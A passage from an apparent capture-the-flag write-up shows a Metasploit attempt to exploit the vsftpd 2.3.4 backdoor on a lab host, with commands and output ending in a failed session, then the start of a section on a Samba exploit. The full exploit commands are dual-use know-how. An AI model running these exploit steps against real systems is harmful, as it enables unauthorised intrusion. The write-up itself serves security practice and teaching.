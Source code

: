 ```
    
```


Set the payload to and run:`cmd/unix/interact`

  
```
  msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options
    
    Module options (exploit/unix/ftp/vsftpd_234_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)
    
    
    Payload options (cmd/unix/interact):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
    
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.
```

    

It still fails.

I’ll explore why this fails in Beyond Root.

## SAMBA Exploit

### Completely Manually

#### Script Analysis

To understand what’s going on, I’ll grab the source for the exploit:

    